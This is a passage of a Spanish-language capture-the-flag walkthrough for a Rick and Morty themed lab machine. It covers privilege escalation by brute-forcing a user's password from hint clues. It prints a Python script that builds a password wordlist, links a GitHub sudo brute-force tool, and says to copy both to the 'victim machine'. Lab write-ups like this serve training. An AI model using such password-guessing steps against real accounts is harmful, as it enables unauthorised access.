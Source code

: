 ## Escalar Privilegios

En el archivo safe, que necesitaba el argumento de la flag ./safe 131333, nos da la flag y un mensaje : 
```bash
Follow these clues, in order


1 uppercase character
1 digit
One of the words in my old bands name.
```
Esto nos esta diciendo que hay que crear un script para que pruebe combinaciones de contraseñas para escalar a RickSanchez. Puedes hacerla tu o usar IA. En mi caso he descargado un sudo brute force de github para que pruebe las combinaciones dentro de la maquina atacante. También un codigo que me ha generado la IA. Para el nombre de la vieja banda de Rick lo he buscado por internet.

```bash
https://github.com/Maalfer/Sudo_BruteForce.git
```
El codigo este guardar como .py en la maquina atacante. En mi caso aaa.py
```bash
import itertools

# Pistas
mayusculas = [chr(c) for c in range(ord('A'), ord('Z') + 1)]  # A-Z
digitos = [str(i) for i in range(10)]  # 0-9
band_words = ["The", "Flesh", "Curtains"]

# Generación de combinaciones
# Formato: [Letra mayúscula] + [dígito] + [palabra de la banda]
combinaciones = []

for letra in mayusculas:
    for digito in digitos:
        for palabra in band_words:
            combinaciones.append(f"{letra}{digito}{palabra}")
            combinaciones.append(f"{letra}{palabra}{digito}")
            combinaciones.append(f"{palabra}{letra}{digito}")
            combinaciones.append(f"{palabra}{digito}{letra}")

# Guardar en diccionario.txt
with open("diccionario.txt", "w") as f:
    for item in combinaciones:
        f.write(item + "\n")

print(f"Se han generado {len(combinaciones)} contraseñas en 'diccionario.txt'")

```
Ejecutarlo con python y te genera un diccionario.
```bash
python3 aaa.py
Se han generado 3120 contraseñas en 'diccionario.txt'
```
El diccionario.txt y el Linux-Su-Force.sh, hay que pasarlo a la maquina victima.
